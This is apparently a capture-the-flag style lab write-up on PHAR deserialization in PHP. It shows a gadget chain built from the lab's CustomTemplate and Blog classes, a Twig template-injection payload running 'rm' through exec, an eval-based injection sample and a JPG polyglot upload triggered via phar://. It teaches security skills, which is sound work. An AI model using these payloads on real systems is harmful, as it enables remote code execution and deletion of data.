## know how deserialization lab: PHAR deserialization to deploy a custom gadget chain expert

```bash
## know how deserialization __wakeup()
## know how deserialization __destruct()
## know how __wakeup() deserialization
## know how __destruct() deserialization
## know how phar:// deserialization
## know how jpg phar:// deserialization
## know how phartojpg deserialization
```

This lab does not explicitly use deserialization. However, if you combine PHAR deserialization with other advanced hacking techniques, you can still achieve remote code execution via a custom gadget chain.

To solve the lab, delete the morale.txt file from Carlos's home directory.

You can log in to your own account using the following credentials: wiener:peter

1. We need explore the website with burp suite.

Ok, at the moment only viewed csrf... but not its our goal... we saw in target the /cg-bin directory, we need explore this directory





We can see 2 backup archives customtemplate and blog 



>CustomTemplate.php



>blog.php



we can se As long as the class of the object is supported by the website, both the __wakeup() and __destruct() magic methods can be invoked in this way, allowing you to potentially kick off a gadget chain using this technique.

[we need use phar to jpg ](https://github.com/joseluisinigo/phar-jpg-polyglot)


If you explore phartojpg, you can see that use wakeup and destruct in the code

```bash
class PHPObjectInjection{
    // fake vuln object for testing poi
    public $inject;
    public $out;
    function __construct(){
        echo "construct called\n";
    }
    function __wakeup(){
        echo "wakeup called\n";
        if(isset($this->inject)){
            eval($this->inject);
        }
    }
    function __destruct() {
        echo "destruct called\n";
        if(isset($this->out)){
            echo($this->out);
        }
    }
}
...
```

Perfect if you explore the code exploit from phartojpg called 

you can see

```bash
// pop exploit class
class PHPObjectInjection {}
$object = new PHPObjectInjection;
$object->inject = 'system("id");';
$object->out = 'Hallo World';
```

Now we can transform this code to our classes 

```php
// pop exploit class
//class PHPObjectInjection {}
// we have a customTemplate and blog in the archives. We need CustomTemplate because blog use this class 
class CustomTemplate {}
class Blog {}


//$object = new PHPObjectInjection;
// we need create object CustomTemplate for use in blog
$object = new CustomTemplate;

// now we need create a new blog its important that need user and desc. we use desc for insert payload

$blog = new Blog;

/*
$object->inject = 'system("id");';
$object->out = 'Hallo World';
## know how ssti to rce
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /home/min/user.txt")}}

With this ssti to rce, we can change the payload for remove /home/carlos/morale.txt
*/

$blog->desc='{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("rm /home/carlos/morale.txt")}}';

$blog->user='carlos'; /*you can use any user, its only important because you need for constructor blog*/tor blog*/

/*Dont forget template_file_path. In this caso the path its */
$object-> template_file_path = $blog; 
```



Now only need use phartojpg for create a polyglot jpg

```bash
# Edit the phar_jpg_polyglot.php and run it to create the polyglot with phar inside
php -c php.ini phar_jpg_polyglot.php

```



Now we have a out.jpg, we need uplaod this file in the website






Now we need launch avatar.php with phar:// and out.jpg for execute our payload




